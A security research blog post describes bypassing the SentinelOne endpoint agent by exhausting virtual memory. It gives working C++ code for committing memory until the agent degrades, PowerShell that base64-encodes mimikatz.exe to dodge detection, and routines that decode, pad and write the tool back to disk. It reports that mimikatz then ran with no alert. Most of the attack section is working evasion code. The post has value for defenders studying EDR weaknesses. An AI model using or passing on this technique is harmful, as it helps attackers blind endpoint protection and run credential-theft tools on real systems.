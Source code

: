 ```yaml
---
title: "Bypassing SentinelOne with resource consumption"
layout: post
tag:
- edr
- evasion
category: blog
---
```



My coworkers were recently discussing an issue they encountered where SentinelOne agents would automatically disable themselves. When this occurs, the agent reports an operational state of either `auto_partially_disabled` or `auto_fully_disabled` which is described by SentinelOne as `disabled by SentinelOne due to a persistent error .. this usually occurs when an endpoint does not have available resources`. This led me to wonder if a malicious actor could intentionally deplete the available resources on a system to force the agent into a bad state and ultimately bypass controls.

To investigate this idea, I wrote a function which consumes virtual memory by repeatedly allocating chunks of memory, starting at a size of 1GB and decreasing the allocation size by half each time it failed to allocate memory.

```cpp
void consumeVirtualMemory() {
    int allocSize = 1024 * 1024 * 1024;
    while (true) {
        if (VirtualAlloc(NULL, allocSize, MEM_COMMIT, PAGE_READWRITE) == NULL) {
            if (allocSize > 2) {
                allocSize /= 2;
            }
        }
    }
}
```

![Windows-TaskManager](/assets/images/posts/2023-03-15-Bypassing-SentinelOne-with-resource-consumption/Windows-TaskManager.png)

While this approach may seem barbaric, it worked exactly as intended, as seen in the screenshot. It's also worth noting that the term 'committed' doesn't necessarily mean 'in use'. As we can see in Task Manager, only a small amount of memory was in use, with plenty of memory still available. However, this approach still allowed us to achieve our goal of depleting available resources since it prevents other applications from allocating new memory. As a result, I encountered two major issues with this approach:

First, the virtual memory consumption quickly reached the limit, making it impossible to execute anything else due to insufficient free memory.

![Windows-NotEnoughMemory](/assets/images/posts/2023-03-15-Bypassing-SentinelOne-with-resource-consumption/Windows-NotEnoughMemory.png)

Second, the host became increasingly unstable as memory usage was capped, eventually leading to a system crash.

![Windows-BSOD](/assets/images/posts/2023-03-15-Bypassing-SentinelOne-with-resource-consumption/Windows-BSOD.png)

To resolve these issues, I increased the minimum virtual memory threshold to 1MB for greater stability and created a function that reserved a designated region of memory, allowing me to execute my desired executable by releasing it when necessary.

```cpp
bool reserveVirtualMemory(int size, HANDLE& hFileMapping) {
	hFileMapping = CreateFileMapping(INVALID_HANDLE_VALUE, 0, PAGE_READWRITE, 0, size, NULL);
	if (hFileMapping == NULL) {
		return false;
	}
	return true;
}
```

Letting this consume resources for some seemingly random time now leads to the SentinelOne agent reporting that it's disabled!

![SentinelOne-Disabled](/assets/images/posts/2023-03-15-Bypassing-SentinelOne-with-resource-consumption/SentinelOne-Disabled.png)

In this case, given a bit of time, the agent is still able to recover itself. Perhaps this is the `auto_partially_disabled` state whereas consuming resources for a longer duration puts it into the `auto_fully_disabled` state that requires manual intervention to re-enable the agent.

Interestingly, using a custom test file I had that isn't ordinarily detected while dormant but gets flagged as suspicious upon execution, I was also able to confirm that the agent is in a disabled state even shortly before it officially reports that it is by successfully executing it without any alerts during this window. I was now determined to write something that would allow me to more reliably execute malicious files without the agent reaching the officially-reported disabled state.

For this, I grabbed something that the agent flags as malicious -- a copy of `mimikatz.exe` -- and converted it into a base64 string stored in a text file using PowerShell.

```posh
# Something like ..
> $Bytes = [IO.File]::ReadAllBytes("C:\mimikatz.exe")
> $B64 = [System.Convert]::ToBase64String($Bytes)
> $B64 | Out-File C:\mimikatz.txt -Encoding ascii -NoNewline
```

I then added some functionality that would allow me to read and decode this base64 encoded string from the text file and write it back out to disk.

```cpp
std::string readFile(const std::string& filePath) {
	std::ifstream fileStream(filePath.c_str());
	std::stringstream fileBuffer;
	fileBuffer << fileStream.rdbuf();
	return fileBuffer.str();
}

// https://stackoverflow.com/a/34571089
std::vector<unsigned char> decodeBase64(const std::string& in) {
	std::vector<unsigned char> out;

	std::vector<int> T(256, -1);
	for (int i = 0; i < 64; i++) T["ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"[i]] = i;

	int val = 0, valb = -8;
	for (unsigned char c : in) {
		if (T[c] == -1) break;
		val = (val << 6) + T[c];
		valb += 6;
		if (valb >= 0) {
			out.push_back(unsigned char((val >> valb) & 0xFF));
			valb -= 8;
		}
	}
	return out;
}

bool writeFile(const std::vector<unsigned char>& fileBytes, const std::string& outFilePath) {
	std::ofstream output_file(outFilePath, std::ios::binary);
	if (!output_file.is_open()) {
		return false;
	}
	output_file.write(reinterpret_cast<const char*>(&fileBytes[0]), fileBytes.size());
	output_file.close();
	if (output_file.fail()) {
		return false;
	}
	return true;
}
```

The `consumeVirtualMemory()` function was then updated to loop for a little while longer before breaking from the loop. This timing seemed to be the sweet spot in placing the agent into a bad state while having it report fully operational.

```cpp
#define MB 1024 * 1024
#define RESERVE_MINIMUM_MB 1

void consumeVirtualMemory() {
	const int minSize = RESERVE_MINIMUM_MB * MB;
	int ensureConsumed = 200;
	int allocSize = 1024 * MB;
	while (true) {
		if (VirtualAlloc(NULL, allocSize, MEM_COMMIT, PAGE_READWRITE) == NULL) {
			if (allocSize > minSize) {
				allocSize /= 2;
			} else {
				ensureConsumed--;
				if (ensureConsumed == 0) {
					break;
				}
				Sleep(50);
			}
		}
	}
}
```

I also added a function which would pad the size of the executable written to be slightly larger than the limit of minimum virtual memory to keep. This felt like it produced the most reliable results with the `reserveVirtualMemory()` function.

```cpp
#define FILE_PADDING_SIZE RESERVE_MINIMUM_MB + 3

void padFileBytes(std::vector<unsigned char>& fileBytes) {
	const int targetSize = FILE_PADDING_SIZE * MB;
	const int paddingSize = targetSize - fileBytes.size();
	if (paddingSize > 0) {
		fileBytes.resize(targetSize);
		std::fill_n(fileBytes.begin() + fileBytes.size() - paddingSize, paddingSize, 0);
	}
}
```

---

Here are the final results:
- A sanity check to confirm that the agent is operational and can detect malicious files, which it did during the write operation.
![S1-Detected](/assets/images/posts/2023-03-15-Bypassing-SentinelOne-with-resource-consumption/S1-Detected.png)

- Testing the code to deplete resources while executing a malicious file resulted in a successful execution, with the agent not throwing any alerts or blocking the execution.
![S1-NotDetected](/assets/images/posts/2023-03-15-Bypassing-SentinelOne-with-resource-consumption/S1-NotDetected.png)

- Giving the agent a little bit of time allows it to fully restore itself. When attempting to execute the file again, the agent successfully mitigated it.
![S1-Detected2](/assets/images/posts/2023-03-15-Bypassing-SentinelOne-with-resource-consumption/S1-Detected2.png)